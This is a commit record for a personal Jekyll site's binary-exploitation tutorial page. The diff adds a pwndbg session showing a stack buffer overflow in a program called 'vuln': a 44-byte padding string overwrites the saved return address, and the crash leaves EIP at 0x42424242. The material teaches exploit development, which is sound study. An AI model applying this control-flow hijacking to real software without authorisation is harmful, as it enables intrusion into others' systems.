

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 2701 px. Shown: the top 1395 px of the window at 91% size, without its empty margins (0-1044 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 3271 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -127,3 +127,36 @@ After those 44 we are overwriting the return address. Let's verify it:
 >>> 'A'*44 + 'BBBB'
 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'
 ```
+
+```
+pwndbg> run
+Starting program:
+No executable file specified.
+Use the "file" or "exec-file" command.
+pwndbg> exec-file vuln
+pwndbg> run
+Starting program: /home/connor/Desktop/vuln
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/usr/lib/libthread_db.so.1".
+Please enter your string:
+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
+Okay, time to return... Fingers Crossed... Jumping to 0x42424242
+
+Program received signal SIGSEGV, Segmentation fault.
+0x42424242 in ?? ()
+LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
+──────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────
+*EAX  0x41
+*EBX  0x41414141 ('AAAA')
+ ECX  0x0
+ EDX  0x0
+*EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0x0
+*ESI  0x8049350 ◂— endbr32
+*EBP  0x41414141 ('AAAA')
+*ESP  0xffffd5f0 ◂— 0xffffff00
+*EIP  0x42424242 ('BBBB')
+────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────
+Invalid address 0x42424242
+
+...
+```
````
